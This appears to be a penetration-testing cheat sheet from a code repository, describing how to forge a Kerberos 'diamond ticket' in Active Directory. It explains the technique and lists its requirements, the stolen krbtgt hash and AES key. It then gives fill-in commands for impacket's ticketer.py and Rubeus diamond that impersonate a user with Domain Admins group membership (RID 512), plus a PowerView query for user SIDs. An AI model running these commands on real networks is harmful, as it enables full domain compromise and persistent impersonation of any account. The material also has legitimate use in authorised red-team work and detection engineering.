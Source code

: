 # Diamond Ticket

### Like a golden ticket, a diamond ticket is a TGT which can be used to access any service as any user. A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use. Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

### A diamond ticket is made by modifying the fields of a legitimate TGT that was issued by a DC. This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it. This overcomes the two aforementioned shortcomings of a golden ticket because:

#### 1) TGS-REQs will have a preceding AS-REQ.

#### 2) The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy. Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

### Request a legit low-priv TGT and recalculate only the PAC field providing the krbtgt encryption key

## Requirements:

#### 1) krbtgt NT hash

#### 2) krbtgt AES key

## Steps:

### 1) Get user SID

 - powershell Get-DomainUser -Identity USERNAME -Properties objectsid

 - 1) ticketer.py -request -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'
  
 - 2) .\Rubeus.exe diamond /tgtdeleg /ticketuser:USERNAME /ticketuserid:RID_OF_USERNAME /groups:512
  
### /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.

### /ticketuser is the username of the principal to impersonate.

### /ticketuserid is the domain RID of that principal.

### /groups are the desired group RIDs (512 being Domain Admins).

### /krbkey is the krbtgt AES256 hash. 


